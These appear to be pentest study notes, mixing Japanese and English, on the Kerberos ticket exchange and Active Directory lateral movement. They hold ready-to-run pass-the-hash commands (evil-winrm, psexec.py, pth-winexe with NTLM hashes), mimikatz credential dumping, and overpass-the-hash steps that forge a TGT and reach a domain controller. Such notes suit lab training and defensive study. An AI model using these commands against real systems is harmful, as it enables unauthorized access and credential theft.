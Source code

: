 ```        

ここまでで、クライアント認証が完了。  次に「サービスチケット」を得る。

## TGS_REQ
- ユーザ名、タイムスタンプ（セッションキー①で暗号化）、リソースのSPN
- TGT（KDCのみが知っている秘密鍵（＝krbtgtのパスワードハッシュ）で暗号化）

## TGS_REP
- サービスチケット（その中にはセッションキー②）

##AP_REQ
- ユーザ名、タイムスタンプ（セッションキー②で暗号化）
- サービスチケット



# Lateral Movement
## Pass The Hash
c.f.) https://book.hacktricks.xyz/pentesting/pentesting-smb

```
evil-winrm -i 10.11.1.121 -u sqlServer -p shantewhite

evil-winrm -u Administrator -H 2892d26cdf84d7a70e2eb3b9f05c425e  -i 192.168.177.10

psexec.py alice:ThisIsTheUsersPassword01@10.11.1.50 cmd.exe

psexec.py Administrator@10.10.3.190 -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc

pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

**パスワード合ってるはずなのに入れない場合は”ドメイン”を指定せよ！**（rdesktopの`-d`とか）

## Over Pass The Hash

Overpass the hashとは、NTLM のユーザハッシュを「オーバー」悪用して、完全な Kerberos の Ticket Granting Ticket(TGT)やサービスチケットを獲得することであり、これにより、 そのユーザとして別のマシンやサービスにアクセスすることが可能となります。

overpass the hash テクニックの本質は、NTLM ハッシュを Kerberos チケットに変換し、 NTLM 認証を回避することにあります。これを行なう簡単な方法は、やはり Mimikatz の sekurlsa::pth コマンドです。

> これを説明するために、Jeff_Admin ユーザが認証したワークステーション(またはサーバ) を侵害し、そのマシンが認証情報(つまり NTLM パスワードハッシュ)をキャッシュしてい る場合を想定します。

Converting NTLM hash to TGT and get another user's shell. 

(That user's hash can be got by `sekurlsa::logonpasswords`.)

```mimikatz# sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe ```

<- I can execute commands on this PowerSHell as Jeff_Admin user

Generating TGT:

```
PS C:¥Windows¥system32> net use \\dc01
```

Now, NTLM hash was converted to Kerberos TGT. So we can use PsExec.exe!

> PsExec はリモートでコマンドを実行できますが、パスワードハッシュは受け付けません。 Kerberos チケットを生成し、Jeff_Admin のコンテキストの PowerShell セッションで操作 しているので、TGT を再利用してドメインコントローラ上でコード実行ができます。

```